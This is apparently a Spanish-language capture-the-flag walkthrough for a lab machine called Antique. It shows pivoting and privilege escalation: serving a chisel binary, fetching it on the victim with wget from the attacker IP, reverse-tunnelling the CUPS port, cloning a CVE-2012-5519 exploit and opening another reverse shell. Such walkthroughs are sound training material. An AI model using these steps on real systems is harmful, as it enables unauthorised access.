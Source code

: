 ![[Antique25.png]]

Mientras levantamos un servidor de [[python3 -m http.server]] con el comando `python3 -m http.server 80` para pasarnos el binario que compilamos antes a la maquina victima

![[Antique22.png]]

Ahora en la maquina victima, vamos a descargar el binario con [[wget]] usando el comando `wget http://10.10.16.15/chisel`

![[Antique24.png]]


Una vez que ya lo tenemos. Desde nuestra maquina ATACANTE vamos a levantar un servidor de [[chisel]] por el puerto 8000 con el comando `./chisel server -p 8000 --reverse`

![[Antique21.png]]


Desde la maquina victima, vamos a ejecutar el binario que previamente descargamos con el comando `./chisel client 10.10.16.15:8000 R:5000:127.0.0.1:631`
![[Antique23.png]]

Ahora el puerto *631* de la maquina VICTIMA va a ser nuestro puerto local *5000* en la maquina ATACANTE



---------
# [[CVE-2012-5519]]

Entramos desde el navegador al puerto 5000 y vemos que es una pagina, con el servicio *CUPS 1.6.1*
![[Antique26.png]]
Buscando en internet encontramos este [[CVE-2012-5519]]
Y vamos a descargar el [repositorio](https://github.com/p1ckzi/CVE-2012-5519) con [[git clone]] usando el comando `git clone https://github.com/p1ckzi/CVE-2012-5519` luego con [[cd]] vamos a entrar a la carpeta `cd CVE-2012-5519` 
![[Antique27.png]]
Lo vamos a pasar a la maquina victima, levantando un servidor con [[python3 -m http.server]] usando el comando `python3 -m http.server 80`

### Aclaracion: 
Como estamos con las otras pestañas ejecutando el [[chisel]] vamos a tener que volver a entablar una conexion por [[telnet]] nueva y por otro puerto mandarnos otra [[Reverse shell]] para poder movernos por la maquina VICTIMA, en este caso lo voy a hacer por el puerto *4000* y luego voy a hacer un [[Tratamiento de la TTY]]

![[Antique28.png]]
![[Antique29.png]]

